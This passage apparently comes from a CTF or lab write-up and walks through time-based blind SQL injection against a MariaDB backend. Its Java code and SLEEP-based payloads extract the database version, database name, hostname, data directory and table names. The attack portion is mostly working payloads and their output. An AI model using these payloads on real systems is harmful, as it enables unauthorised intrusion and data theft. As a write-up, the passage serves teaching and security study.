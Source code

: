 ```java
		    if( PayloadRequest.blindBoolean(payload) ) {
		        low = ort;
	            } else {
		        high = ort;
		    }
	        }
	    }
	    return value.toString();
	}
```

Everything seems fine enough to start leaking some data:

### Database recon

#### version()
```java
	public static String blindVersion() throws Exception {
		String injection = "'||(IF((SELECT ascii(substr(version(),%d,1)))%c%d,SLEEP(%d),1))#";
		return PayloadRequest.blindString(injection, 25);
	}
	// 10.1.37-MariaDB
```

#### database()
```java
	public static String blindDatabase() throws Exception {
		String injection = "'||(IF((SELECT ascii(substr(database(),%d,1)))%c%d,SLEEP(%d),1))#";
		return PayloadRequest.blindString(injection, 25);
	}
	// flitebackend
```

#### hostname + datadir
```java
    System.out.println(blindString("'||(IF((SELECT ascii(substr(@@hostname,%d,1)))%c%d,SLEEP(%d),1))#", 20)); 
    // hostname: de8c6c400a9f
    System.out.println(blindString("'||(IF((SELECT ascii(substr(@@datadir,%d,1)))%c%d,SLEEP(%d),1))#", 30));
    // datadir: /var/lib/mysql/
```

#### Tables
```java
	public static String blindTableName(int offset) throws Exception {
		String injection = "'||(IF((SELECT ascii(substr(table_name,%d,1)) from information_schema.tables where table_schema=database() limit "+offset+",1)%c%d,SLEEP(%d),1))#";
		return PayloadRequest.blindString(injection, 100);
	}
	...
	PayloadRequest.blindTableName(0); // devices
	PayloadRequest.blindTableName(1); // users
	PayloadRequest.blindTableName(2); // None
```
